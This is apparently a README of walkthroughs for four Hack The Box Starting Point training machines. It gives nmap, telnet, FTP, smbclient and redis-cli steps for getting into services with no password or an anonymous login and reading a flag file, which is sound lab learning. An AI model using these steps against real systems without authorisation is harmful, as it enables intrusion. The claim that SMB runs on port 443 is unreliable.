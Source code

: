 Start here: https://app.hackthebox.com/starting-point

On environment Kali Linux and connect to HTB

Explain the linux command: https://explainshell.com/

Always ask google: https://www.google.com/

# Meow

1. Check port 23 running service

   `nmap -p 23 -sV TARGET_IP`

2. telnet service is running, execute `telnet`

   `telnet TARGET_IP`

3. login with `root`

4. login succeed
5. `ls` to show what's there
6. `cat flag.txt`

# Fawn

1. Check port 21 (FTP) running service

   `nmap -p 21 -sV TARGET_IP`

2. ftp service is running, execute `ftp`

   `ftp TARGET_IP`

3. login with name `anonymous` without password

4. `ls` and there is a *flag.txt*

5. copy the file to current directory

   ftp>`get flag.txt`

6. exit ftp by command `bye`, then `cat flag.txt`

# Dancing

1. Check port 443 (SMB) running service

   `nmap -p 443 -sV TARGET_IP`

2. SMB service is running, see what is sharing in the server

   `smbclient -L TARGET_IP`

3. We are able to access with a blank password for the folder *WorkShares*

   `smbclient //TARGET_IP/WorkShares`

4. list the files in folder *WorkShares* smb: \> `ls`

5. Check the file *James.P* owns, the flag is inside *flag.txt*

6. smb: \James.P\> `get flag.txt`

# Redeemer

1. Check the TCP port opened on the machine, `-T5` used for quicker enum, `-sS` is check for the TCP SYN scan (half of the TCP handshake), `-sV` is used to check the version of the service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. port 6379/tcp is opened for **Redis** service **version 5.0.7**, Redis is an **in-memory database**

3. connect to Redis server, `-h` means host

   `redis-cli -h TARGET_IP`

5. Connected success, select the first database in Redis: `select 0`

6. List all the keys in this database: `keys *`, the flag is in the *flag* key

7. Look at the value of the key *flag* by `get flag`

